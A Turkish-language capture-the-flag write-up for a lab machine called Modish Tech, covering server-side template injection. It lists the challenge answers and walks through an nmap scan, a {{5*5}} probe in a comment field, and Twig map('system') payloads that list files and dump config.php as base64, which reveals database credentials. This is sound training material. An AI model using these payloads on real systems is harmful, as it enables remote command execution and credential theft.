





# Modish Tech CTF - Write-up

**Konu:** SSTI 

---

## ❓ Sorular ve Cevaplar

**Web sitesinin başlığı nedir?**
> **modish tech**

**Ürün detayının görüntülendiği sayfada hangi GET parametresi kullanılır?**
> **id**

**SSTI'nin açılımı nedir?**
> **Server-Side Template Injection**

**Yaygın olarak kullanılan ve ekrana 49 ifadesini yazdıran SSTI payloadı nedir?**
> **{{7*7}}**

**Uygulamanın kullandığı veritabanı adı nedir?**
> **modish_tech**


## 1. Keşif 

Öncelikle makineyi başlattım ve verilen IP adresini kullanarak hedef üzerinde nmap taraması yaptım:

```bash
nmap -sV <HEDEF_IP>
```
Çıktı bana HTTP (80) portunun açık olduğunu gösterdi. Bu da tarayıcı üzerinden siteye bağlanabileceğim anlamına geliyordu.

Tarayıcıdan http://<HEDEF_IP>:80 adresine giderek Modish Tech adında bir mağaza sayfasına eriştim.



---

## 2. Web Uygulaması
Sitede gezinirken herhangi bir ürüne tıkladığımda URL yapısının şu şekli aldığını gördüm: http://.../product.php?id=1

Buradaki id değerini değiştirerek farklı yerlere gitmeye çalıştım ancak kayda değer bir sonuç elde edemedim. URL uzantısının .php olması bana sistemin PHP altyapısında çalıştığına dair ilk ipucunu verdi.

Sayfanın aşağısında bir yorum kısmı olduğunu fark ettim. Önceliğim, kullanıcı girdisi alan bu noktada bir zafiyet olup olmadığını kontrol etmek oldu.

---

## 3. SSTI
Sistem PHP olduğu için matematiksel bir işlem göndererek şablon motorunun (Template Engine) tepkisini ölçmek istedim. Yorum kısmına şu payload'ı girdim:
```bash
{{5*5}}
```
Sayfa yenilendiğinde yazdığım yorumun yerinde 25 değeri vardı. Kodların sunucu tarafında çalıştırıldığını bu şekilde doğruladım


---

## 4.Exploitation
İçeride hangi dosyaların olduğunu görmek için sistem komutu çalıştırmam gerekiyordu. ls komutunu çalıştırmak için şu payload'ı kullandım:

Payload:
```bash
{{['ls ']|map('system')}}
```
çıktı:
Chart.bundle.min.js blank.png bootstrap-icons.css bundle.min.js comment.php 
composer.json composer.lock config.php css index.php js product.php products vendor Array


---
## 5.Exfiltration
config.php dosyasını doğrudan okumak yerine Base64 formatında şifreleyerek okumaya çalıştım 
```bash
{{['cat config.php | base64']|map('system')}}
```

Bu işlem sonucunda elime uzun şifrelenmiş bir metin geçti  bu metni kopyaladım ve kendi terminalimde decode ettim
```bash
echo 'PD9waHAKJGhvc3QgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJtb2Rpc2hfdGVjaCI7CiR1c2Vy bmFtZSA9ICJyb290IjsKJHBhc3N3b3JkID0gIjd0UnktelNtRi0xMTQzIjsKCnRyeSB7CiAgICAk cGRvID0gbmV3IFBETygibXlzcWw6aG9zdD0kaG9zdDtkYm5hbWU9JGRibmFtZTtjaGFyc2V0PXV0 ZjgiLCAkdXNlcm5hbWUsICRwYXNzd29yZCk7CiAgICAkcGRvLT5zZXRBdHRyaWJ1dGUoUERPOjpB VFRSX0VSUk1PREUsIFBETzo6RVJSTU9ERV9FWENFUFRJT04pOwp9IGNhdGNoIChQRE9FeGNlcHRp b24gJGUpIHsKICAgIGVjaG8gIkNvbm5lY3Rpb24gZXJyb3I6ICIgLiAkZS0+Z2V0TWVzc2FnZSgp Owp9Cj8+ Array' | base64 -d
```
---

çıktı:
```bash
<?php
$host = "localhost";
$dbname = "modish_tech";
$username = "root";
$password = "7tRy-zSmF-1143";
// ...
?
```
buradan son sorunun cevabı olan veritabanı adına yani 'modish_tech' adına ulaşıp son soruyu da cevapladım.


---
